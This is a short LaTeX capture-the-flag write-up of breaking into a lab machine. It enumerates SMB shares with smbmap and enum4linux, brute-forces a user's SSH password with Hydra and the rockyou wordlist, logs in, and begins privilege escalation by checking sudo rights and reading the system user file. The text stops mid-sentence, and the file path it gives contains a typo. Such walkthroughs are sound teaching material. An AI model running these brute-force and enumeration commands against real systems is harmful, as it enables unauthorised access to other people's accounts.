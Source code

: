 \documentclass{article}
\begin{document}
\begin{lstlisting}
    smbmap -H $BOX_IP -R
\end{lstlisting}

We see there is a file called \textit{staff.txt} available tu any user. Let's grab this file:

\begin{lstlisting}
    smbmap -H $BOX_IP --download ./Anonymous/staff.txt
\end{lstlisting}
In this file, we can find the usernames for both users: jan and kay. \newline
Another way to have found these usernames would have been:

\begin{lstlisting}
    enum4linux $BOX_IP
\end{lstlisting}

Now since we know that Jan has a weak password, let us try to brute-force it using Hydra.

\begin{lstlisting}
    hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$BOX_IP -t 4
\end{lstlisting}
We managed to brute-force our way into the machine using the password \textbf{armando}. We can now connect to the machine with

\begin{lstlisting}
    ssh jan@$BOX_IP 
\end{lstlisting}

\section*{Privilege Escalation}
Now that we have access to the machine, we need to further extend our privileges. To start we can try a couple of things and take a look around what we can do. First let's try whether our user can simply use sudo

\begin{lstlisting}
    sudo -l 
\end{lstlisting}

Let's check which users there are

\begin{lstlisting}
   cat /etc/passwords
\end{lstlisting}

No luck so far, so let's use an automated privileged escalation script that can help us. Basically they check the machine for one of the following
\end{document}

